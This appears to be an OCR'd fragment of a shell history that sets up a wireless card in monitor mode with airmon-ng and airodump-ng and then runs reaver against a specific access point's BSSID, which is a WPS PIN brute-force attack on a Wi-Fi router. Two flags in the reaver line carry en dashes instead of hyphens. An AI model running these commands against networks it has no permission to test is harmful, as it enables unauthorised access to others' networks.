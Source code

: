  2002  iwconfig
 2003  airmon-ng
 2004  sudo airmon-ng start wlp3s0
 2007  sudo airodump-ng wlp3s0mon
 2008  reaver –i wlp3s0mon –b 1C:AB:C0:46:D1:E8 -c 1 -vv
